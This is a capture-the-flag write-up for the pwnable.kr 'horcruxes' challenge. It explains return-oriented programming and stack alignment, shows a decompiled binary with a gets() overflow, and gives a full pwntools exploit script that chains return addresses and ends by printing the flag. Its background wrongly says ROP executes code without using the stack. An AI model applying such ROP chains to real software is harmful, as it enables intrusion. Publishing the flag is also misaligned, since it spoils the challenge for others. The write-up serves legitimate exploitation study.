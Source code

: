 # input

## Description

horcruxes - 7 pt

> Voldemort concealed his splitted soul inside 7 horcruxes. <br>
> Find all horcruxes, and ROP it! <br>
> author: jiwon choi <br> <br>
> ssh horcruxes@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### ROP

ROP stands for Return Oriented Programming. It is a technique that allows us to execute code without using the stack, based on the fact that the return address of a function is stored in the stack.

Basically, ROPing is done by overwriting the return address of a function, with some other address that we want to jump to. 

It is important to note that modern calling conventions require that the stack is aligned to 16 bytes. However, when we jump from one function, say `f`, to another - `g`, using ROP, we don't push a return address to the stack. And so, when entering `g`, after pushing the old base pointer - the stack will not be aligned to 16 bytes.

We can solve this problem by overwriting 8 more bytes after the return address. We will overwrite the **return address** with the address of *another* (or the same) return instruction, and overwrite the **next 8/4 bytes** with the address of the function we want to jump to.

The program will jump to a return instruction, and from there to the function we want to jump to. Thus, 2 pop instruction will be executed, and the stack will be aligned to 16 bytes. 


### Exploit

In this challenge we are given a binary, and a readme file that explains where to connect to. The binary is a 32 bit ELF file, and we can see that it has no canary.

Here are the (relevant) results of decompiling the binary:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ...

  init_ABCDEFG();
  
  ...
  
  return ropme();
}
```

```c
int init_ABCDEFG()
{
  ...
  a = -559038737 * rand() % 0xCAFEBABE;
  b = -559038737 * rand() % 0xCAFEBABE;
  c = -559038737 * rand() % 0xCAFEBABE;
  d = -559038737 * rand() % 0xCAFEBABE;
  e = -559038737 * rand() % 0xCAFEBABE;
  f = -559038737 * rand() % 0xCAFEBABE;
  g = -559038737 * rand() % 0xCAFEBABE;
  result = f + e + d + c + b + a + g;
  sum = result;
  return result;
}
```

```c
int ropme()
{
  int v1; // [esp-Ch] [ebp-84h]
  int v2; // [esp-8h] [ebp-80h]
  int v3; // [esp-4h] [ebp-7Ch]
  char v4[100]; // [esp+4h] [ebp-74h] BYREF
  int v5; // [esp+68h] [ebp-10h] BYREF
  int v6; // [esp+6Ch] [ebp-Ch]

  printf("Select Menu:");
  __isoc99_scanf("%d", &v5);
  getchar();
  if ( v5 == a )
  {
    A();
  }
  else if ( v5 == b )
  {
    B();
  }

  ...

  else if ( v5 == g )
  {
    G();
  }
  else
  {
    printf("How many EXP did you earned? : ");
    gets(v4);
    if ( atoi(v4) == sum )
    {
      v6 = open("flag", 0);
      v4[read(v6, v4, 100)] = 0;
      puts(v4);
      close(v6);
      exit(0, v1, v2, v3);
    }
    puts("You'd better get more experience to kill Voldemort");
  }
  return 0;
}
```

The porgram starts by calling `init_ABCDEFG`, which initializes the variables `a`, ..., `g` with random values. Then, it calls `ropme`. There, we are asked to choose a number. If it is equal to one of the variables, we will jump to the function `A`, ..., `G` respectively. Otherwise, we will be asked to enter another number. If it is equal to the sum of the variables, we will get the flag.

The functions `A`, ..., `G` are all the very similar. They all print a message, and the value of `a`, ..., `g` respectively.

At a first glance, it seems that the ROP is very simple - we overflow on `gets(v4)` and overwrite the return address jumping to the `v6 = open("flag", 0);` line. However, there is a problem - in the `ropme` function, all of the addresses are of the format `0x80a0XXX`. Since `0a` is also the ascii code of `\n`, we can't use it in our payload.

And so, the solution is to jump to each and every of the functions `A`, ..., `G`, sum the values of `a`, ..., `g`, and then jump to the call to `ropme` from the `main` function (since we can't jump anywhere inside `ropme`). Then, we will insert the sum and get the flag.

As we mentioned before, we need to consider stack alignment. Everytime we want to jump anywhere, we must first jump to a return instruction, and then to the address we want to jump to.
Here is the exploit:

```python
from pwn import *
import numpy as np
import re

con = remote('pwnable.kr', 9032)

con.sendline(b'1\n' + b'\x41'*100 + b'\x42'*4*5 + b'\x69\xfe\x09\x08' + 
            b'\x4b\xfe\x09\x08' + b'\x69\xfe\x09\x08' + b'\x6a\xfe\x09\x08' +
            b'\x69\xfe\x09\x08' + b'\x89\xfe\x09\x08' + b'\x69\xfe\x09\x08' +
            b'\xa8\xfe\x09\x08' + b'\x69\xfe\x09\x08' + b'\xc7\xfe\x09\x08' +
            b'\x69\xfe\x09\x08' + b'\xe6\xfe\x09\x08' + b'\x69\xfe\x09\x08' +
            b'\x05\xff\x09\x08' + b'\x69\xfe\x09\x08' + b'\xfc\xff\x09\x08')

con.recvuntil(b'Select Menu:')

horcruxes = con.recvuntil(b'Select Menu:')
soul_parts = re.findall(b'EXP \+([0-9-]*)', horcruxes)
soul = np.int32(np.sum([np.int32(_.decode()) for _ in soul_parts]))

con.sendline(b'1')
con.sendline(str(soul).encode() + b'\x00')

con.interactive()
```

```
Magic_spell_1s_4vad4_K3daVr4!